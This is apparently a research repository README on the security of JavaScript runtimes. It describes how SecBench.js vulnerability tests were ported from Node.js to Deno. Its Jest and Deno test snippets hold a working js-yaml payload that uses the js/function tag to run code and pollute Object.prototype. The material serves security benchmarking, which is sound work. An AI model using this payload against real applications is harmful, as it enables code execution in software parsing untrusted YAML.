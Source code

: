 # State of Security in JavaScript Runtimes
The repository contains all the resources used while writing the seminar paper on the topic "Security of Emerging JavaScript Runtimes".

<br>

Note that SecBench.js logs contain some files ANSI-encoded, while some are plaintext. It is recommended to read the files from the terminal or from a tool that supports both encodings. 

<br>

While SecBench.js works as is for Node.js, it requires some adjustments to function properly alongside Deno.
The main issue is the different import mechanisms and the different syntax. For example, to use "require" and "expect", the methods have to be explicitly imported.

<br>

For instance, for the test case js-yaml in command injection we had this snippet:

```js
test("Arbitrary code execution in js-yaml", () => {
  expect.assertions(2);
  const payload =
    "{ toString: !<tag:yaml.org,2002:js/function> 'function (){return (this.constructor.prototype.polluted=`yes`)}' } : 1";
  const jsyaml = require("js-yaml");
  expect({}.polluted).toBe(undefined);
  try {
    jsyaml.load(payload);
  } catch (error) {}
  expect({}.polluted).toBe("yes");
});
```

That for Deno had to be modified in the following one:
```ts
import { expect } from "jsr:@std/expect";
import { createRequire } from "node:module";

Deno.test("Arbitrary code execution in js-yaml", () => {
  const require = createRequire(import.meta.url);
  expect.assertions(2);
  const payload =
    "{ toString: !<tag:yaml.org,2002:js/function> 'function (){return (this.constructor.prototype.polluted=`yes`)}' } : 1";
  const jsyaml = require("js-yaml");
  expect({}.polluted).toBe(undefined);
  try {
    jsyaml.load(payload);
  } catch (error) {}
  expect({}.polluted).toBe("yes");
});
```

As it can be seen, "expect" module was imported before usage and "require" is simulated with the "createRequire" module.
